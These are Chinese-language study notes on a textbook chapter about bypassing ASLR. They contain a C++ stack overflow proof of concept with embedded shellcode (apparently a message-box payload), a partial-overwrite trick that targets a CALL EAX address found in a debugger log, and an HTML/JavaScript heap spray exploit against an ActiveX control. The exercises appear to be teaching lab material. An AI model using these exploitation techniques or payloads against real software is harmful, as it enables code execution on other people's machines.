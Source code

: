 # notes about chapter13
## from 13.2 攻击未启用 ASLR 的模块
## from 13.3 利用部分覆盖进行定位内存地址
codes:

```C++
#include<string.h>
#include"stdlib.h" 
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"//168

"\x90\x90\x90\x90\x90\x90\x90\x90"//176
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"//256
"\x90\x90\x90\x90"

"\x90\x90"
;
char * test()
{
	char tt[256]; 
	memcpy(tt,shellcode,262); 

	_asm int 3;
	return tt;
}
int main()
{
	char temp[200]; 
	test();
	return 0;
}

```

覆盖完成后：

eax->shellcode起始地址：

![](./dbg1.JPG)

由于aslr只是让基址进行了随机化，所以可以用off by one的思路将地址的后两个字节覆盖，从而运行在随机化的基址基础上的偏移的指令，此时覆盖了最后两个字节：

![](./dbg2.JPG)

所以只要在能覆盖的地址范围内找到类似jmp eax的指令即可。

找到的指令：  
```
Log data, 条目 742
 地址=000A141C
 消息=Found  CALL EAX at 0xa141c     Module:  C:\Users\admin\Desktop\0day\exp398\Release\exp398.exe

```

使用第一个"\x1C\x14"即可。

![](./success.JPG)

## 13.4  利用 Heap spray 技术定位内存地址
```html
<html>
	<body>

		<script>
		var nops = unescape("%u9090%u9090");
		var shellcode=
	"\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050\uff53\ufc57\uff53\uf857";

		while (nops.length < 0x100000)
			nops += nops;
		nops=nops.substring(0,0x100000/2-32/2-4/2-2/2-shellcode.length); nops=nops+shellcode;
		var memory = new Array(); 
		for (var i=0;i<200;i++)
			memory[i] += nops;
		</script>

		<object classid="clsid:DA30E427-9F4A-4353-A2D8-178BC2EEE6EC" id="test"> </object>

		<script>
		var s = "\u9090";
		while (s.length < 54) { s += "\u9090";
		} 
		s+="\u0C0C\u0C0C";
		test.test(s);
		</script>

	</body>
</html>
```

## 13.5  利用 Java applet heap spray 技术定位内存地址

## 13.6 为 .NET 控件禁用ASLR